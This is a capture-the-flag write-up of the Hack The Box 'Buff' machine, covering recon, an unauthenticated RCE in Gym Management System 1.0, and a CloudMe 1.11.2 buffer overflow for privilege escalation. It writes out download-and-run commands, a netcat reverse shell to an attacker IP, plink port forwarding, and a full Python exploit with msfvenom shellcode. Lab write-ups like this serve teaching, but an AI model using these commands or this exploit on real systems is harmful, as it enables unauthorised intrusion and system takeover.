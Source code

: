 ```yaml
---
title: HTB - Buff Write-up
author: bigb0ss
date: 2020-11-20 23:25:00 +0800
categories: [Hack The Box, Windows, Easy]
tags: [hackthebox, buff, gymManagementSystem 1.0 RCE, plink, cloudMe bof]
image: /assets/img/post/htb/buff/01_infocard.png
---
```


# Initial Recon

## Nmap

Let’s begin with an initial port scan:

```console
$ nmap -Pn --open -p- -sC -sV 10.10.10.198

PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
```

### Interesting Ports to Note

* HTTP (8080/TCP) - Web page. Gym Management Software 1.0

The contact page disclosing the version of the application:

![image](/assets/img/post/htb/buff/02.png)


# Initial Foothold

That particular version of the software was vulnerable to an Unauthenticated Remote Code Execution discovered by Bobby Cooke. The POC exploitation script can be found [here](https://www.exploit-db.com/exploits/48506).

## Gym Management System 1.0 - Unauthenticated Remote Code Execution

By running the POC script, I successfully obtained an interactive web shell on the Buff box.

![image](/assets/img/post/htb/buff/03.png)

## Netcat Reverse Shell

Using the PowerShell, I uploaded the `nc.exe` onto the Buff box.

```console
C:\> powershell Invoke-WebRequest -Uri http://10.10.14.15/nc.exe -OutFile C:\xampp\htdocs\gym\upload\nc.exe
```

![image](/assets/img/post/htb/buff/04.png)

```console
C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.15 443 -e cmd.exe
```

![image](/assets/img/post/htb/buff/05.png)

As the user `shaun` , I could read the `user.txt` file.

![image](/assets/img/post/htb/buff/06.png)


# Privilege Escalation

## Shaun —> Administrator

Within the `shaun` user’s Download directory, there was a binary called `CloudMe_1112.exe` and this binary was actually running on the system as well. 

![image](/assets/img/post/htb/buff/07.png)

With some Google search, I found a BOF exploit for this CloudMe version 1.11.2 [here](https://www.exploit-db.com/exploits/48389). From the POC script, the port for the CloudMe product was `8888` and that port was indeed in use on the Buff box; however, it was only accessible locally. 

> **NOTE**: I did not dig in further, but the PID for the CloudMe.exe kept changing. I suspected it was happening because of some type of scheduled tasks.

### Port Forwarding (plink.exe)

```console
C:\> powershell Invoke-WebRequest -Uri http://10.10.14.15/plink.exe -OutFile c:\Users\shaun\Downloads\plink.exe
```

![image](/assets/img/post/htb/buff/08.png)

The outbound to port 22 from the Buff box was restricted. So, I had to modified the following SSH config on my Kali:

![image](/assets/img/post/htb/buff/09.png)

Starting an SSH service on my Kali Linux:

![image](/assets/img/post/htb/buff/10.png)

```console
C:\> c:\users\shaun\downloads\plink.exe -ssh -P 8001 root@10.10.14.15 -R 8002:127.0.0.1:8888 -N
```

![image](/assets/img/post/htb/buff/11.png)

![image](/assets/img/post/htb/buff/12.png)

### BOF Exploit

First, created the `msfvenom` payload for the reverse shell.

```console
msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.15 8003 -e cmd.exe' -b '\x00\x0A\x0D' -f python
```

```python
import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

# msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.15 8003 -e cmd.exe' -b '\x00\x0A\x0D' -f python
buf =  b""
buf += b"\xbf\xa8\x82\xfa\xea\xdd\xc1\xd9\x74\x24\xf4\x5d\x29"
buf += b"\xc9\xb1\x3e\x83\xed\xfc\x31\x7d\x10\x03\x7d\x10\x4a"
buf += b"\x77\x06\x02\x08\x78\xf7\xd3\x6c\xf0\x12\xe2\xac\x66"
buf += b"\x56\x55\x1c\xec\x3a\x5a\xd7\xa0\xae\xe9\x95\x6c\xc0"
buf += b"\x5a\x13\x4b\xef\x5b\x0f\xaf\x6e\xd8\x4d\xfc\x50\xe1"
buf += b"\x9e\xf1\x91\x26\xc2\xf8\xc0\xff\x89\xaf\xf4\x74\xc7"
buf += b"\x73\x7e\xc6\xc6\xf3\x63\x9f\xe9\xd2\x35\xab\xb0\xf4"
buf += b"\xb4\x78\xc9\xbc\xae\x9d\xf7\x77\x44\x55\x8c\x89\x8c"
buf += b"\xa7\x6d\x25\xf1\x07\x9c\x37\x35\xaf\x7e\x42\x4f\xd3"
buf += b"\x03\x55\x94\xa9\xdf\xd0\x0f\x09\x94\x43\xf4\xab\x79"
buf += b"\x15\x7f\xa7\x36\x51\x27\xa4\xc9\xb6\x53\xd0\x42\x39"
buf += b"\xb4\x50\x10\x1e\x10\x38\xc3\x3f\x01\xe4\xa2\x40\x51"
buf += b"\x47\x1b\xe5\x19\x6a\x48\x94\x43\xe1\x8f\x2a\xfe\x47"
buf += b"\x8f\x34\x01\xf8\xe7\x05\x8a\x97\x70\x9a\x59\xdc\x8e"
buf += b"\xd0\xc0\x75\x06\xbd\x90\xc7\x4b\x3e\x4f\x0b\x75\xbd"
buf += b"\x7a\xf4\x82\xdd\x0e\xf1\xcf\x59\xe2\x8b\x40\x0c\x04"
buf += b"\x3f\x61\x05\x47\x85\xc1\xde\x29\x94\x89\x6e\xf6\x0e"
buf += b"\x1d\xeb\x69\xac\xae\xaf\x12\x4b\x3d\x0c\xa8\xdb\xd1"
buf += b"\xc3\x33\x78\x75\x72\xd7\xae\xe0\xf2\x72\x8f\xdb\x32"
buf += b"\x53\xfe\x2b\x1d\x9a\x34\x65\x50\xe9\x14\x41\xa2\x21"
buf += b"\x66\x91\xef\x24\xa8\xb2\x82\xc2\x86\x51\x25\x6e\xd7"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + buf))

buf = padding1 + EIP + NOPS + buf + overrun 

try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,8002))
        s.send(buf)
except Exception as e:
        print(sys.exc_value)
```

I received the elevated shell on the Netcat listener and read the `root.txt` flag.

![image](/assets/img/post/htb/buff/13.png)


































